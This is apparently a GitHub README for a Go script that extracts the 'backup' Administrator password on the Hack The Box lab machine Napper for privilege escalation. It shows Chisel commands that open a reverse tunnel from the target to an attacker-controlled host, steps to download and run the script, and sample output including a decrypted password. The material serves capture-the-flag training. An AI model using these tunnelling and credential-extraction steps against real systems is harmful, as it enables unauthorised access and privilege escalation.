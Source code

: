 ## About

A GO Lang script that will get you the password for the Administrator user `backup` on [Napper](https://app.hackthebox.com/machines/Napper).<br>

## Requirements

Your machine has to be linked to Napper with a reverse port forward on port 9200. Here's a way to do it using [Chisel](https://github.com/jpillora/chisel).
  - Run this on your linux machine:
```console
user@kali:~$ chisel server -p 9000 --reverse
user@kali:~$
```
  - Run this on Napper:
```console
C:\Users\ruben\Desktop> chisel.exe client <YOUR_IP>:9000 R:9200:127.0.0.1:9200
C:\Users\ruben\Desktop> 
```
> **Change `<YOUR_IP>` with your `tun0` IP address.**<br>
> *You can also use an available port different than 9000 if you want.<br>
> `chisel.exe` is **NOT** installed by default on Napper. It is your job to get it on Napper before using this script.*

Obviously GO Lang has to be installed on your linux machine (where the script will be executed). If you don't have it installed yet, visit [this link](https://go.dev/doc/install).<br>

## Usage

Firstly you download the script. After that you give the script the execution permission. Finally you run the script.
```console
user@kali:~$ wget https://github.com/croluy/Napper_Script/blob/main/Pass_script
user@kali:~$ sudo chmod +x Pass_script
user@kali:~$ go run Pass_script
user@kali:~$ 
```
If all went well, it will produce an output similar to this:
```console
Key: 6b871be7d935fc2a7d2a974b798e6c9b
IV: 87f47937c807cf2c6c98e01a11684ea7
Encrypted Data: 3c09b34edb32df9cb252ae6f7c84e8b61ddaf9ee88508f79c104f3d7ee61317ed38eb8cfb2173e16
Decrypted Data: qFrbskeXMiWlmnyqtlrwkqqHmcztbBmXUdfAlgvn
```
<hr>

`Decrypted Data` is the password for the `backup` user. Now it's your turn to find a way to use it and finish your privesc.
